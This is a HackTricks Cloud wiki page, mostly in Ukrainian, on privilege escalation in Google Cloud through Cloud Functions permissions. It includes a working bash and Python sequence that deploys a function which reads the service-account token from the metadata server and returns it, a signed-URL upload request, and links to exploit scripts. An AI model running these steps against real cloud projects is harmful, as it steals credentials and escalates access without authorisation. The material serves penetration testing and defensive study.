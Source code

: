 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Більше інформації про Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **створити нову Cloud Function з довільним (шкідливим) кодом і призначити їй обліковий запис служби**. Потім, витягнути токен облікового запису служби з метаданих, щоб підвищити привілеї до нього.\
Можливо, знадобляться деякі привілеї для активації функції.

Скрипти експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) і [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), а попередньо зібраний .zip файл можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **модифікувати код функції і навіть змінювати обліковий запис служби, що прикріплений** з метою ексфільтрації токена.

{% hint style="danger" %}
Щоб розгорнути cloud functions, вам також знадобляться дозволи actAs для облікового запису служби за замовчуванням або для облікового запису служби, що використовується для створення образу.
{% endhint %}

Деякі додаткові привілеї, такі як дозвіл `.call` для версії 1 cloudfunctions або роль `role/run.invoker` для активації функції можуть бути необхідні.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
Скрипт експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

З цією дозволом ви можете отримати **підписане URL для завантаження файлу до функціонального бакету (але код функції не буде змінено, вам все ще потрібно його оновити)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Не зовсім впевнений, наскільки корисним є лише цей дозвіл з точки зору атакуючого, але добре знати.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Надайте собі будь-які з попередніх **`.update`** або **`.create`** привілеїв для ескалації.

### `cloudfunctions.functions.update`

Маючи лише **`cloudfunctions`** дозволи, без **`iam.serviceAccounts.actAs`** ви **не зможете оновити функцію, ТОМУ ЦЕ НЕ Є ДІЙСНОЮ ЕСКАЛАЦІЄЮ ПРИВІЛЕЇВ.**

### Дозволи на запис у бакет

Ви можете подумати, що атакуючий з **дозволами на запис у бакет**, де зберігається код Cloud Functions, зможе **модифікувати код, перезаписуючи** `function_code.zip`, а потім змусити функцію **виконати довільний** код.

{% hint style="success" %}
**Однак це не так, просто перезапис коду всередині бакету не змінить код, що виконується.**
{% endhint %}

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
